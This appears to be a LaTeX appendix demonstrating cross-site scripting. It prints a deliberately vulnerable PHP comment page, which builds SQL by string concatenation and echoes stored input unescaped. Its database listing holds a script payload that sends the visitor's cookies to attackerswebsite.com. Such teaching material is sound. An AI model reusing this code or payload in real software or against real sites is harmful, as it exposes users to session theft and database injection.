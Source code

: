 \documentclass[a4paper]{article}
\begin{document}
\appendix
\section{Cross-Site Scripting (XSS) example}

\subsection{index.php}
\begin{verbatim}
<?php
	class MyDB extends SQLite3 {
      function __construct() {
         $this->open('comments.db');
      }
   }

	if (isset($_POST['user'], $_POST['comment'])) {
		$user = $_POST['user'];
		$comment = $_POST['comment'];

		$db = new MyDB();

		$sql = 'INSERT INTO Comments VALUES(\'' . $user . '\',\'' .
        	       $comment . '\')';
		$ret = $db->exec($sql);
		$db->close();
	}

	echo '<!DOCTYPE HTML><html><head><title>Comments</title>' .
	   	 '<meta charset="utf-8"></head><body><h1>Comments</h1>';

	$db = new MyDB();

	$sql = 'SELECT * FROM Comments';
	$ret = $db->query($sql);
	while ($row = $ret->fetchArray(SQLITE3_ASSOC))
		echo '<p><b>' . $row['user'] . '</b> says:<br>' .
        	      $row['comment'] . '</p>';

	$db->close();

	echo '<h2>Add comment</h1><form action="index.php" method="post">' .
	     '<input type="text" name="user" placeholder="User name"><br>' .
	     '<input type="text" name="comment" placeholder="Comment"><br>' .
	     '<input type="submit" value="Add"><br>' .
	     '</form></body></html>';
?>
\end{verbatim}
\newpage

\subsection{comments.db}
\begin{verbatim}
CREATE TABLE Comments(
	user varchar(32),
	comment varchar(255)
);

INSERT INTO Comments VALUES('user1','Hello world!');
INSERT INTO Comments VALUES('user2','test');
INSERT INTO Comments VALUES('attacker','hello
<script>document.createElement("img").src =
"http://attackerswebsite.com/" + document.cookie</script>');
\end{verbatim}
\newpage
\end{document}
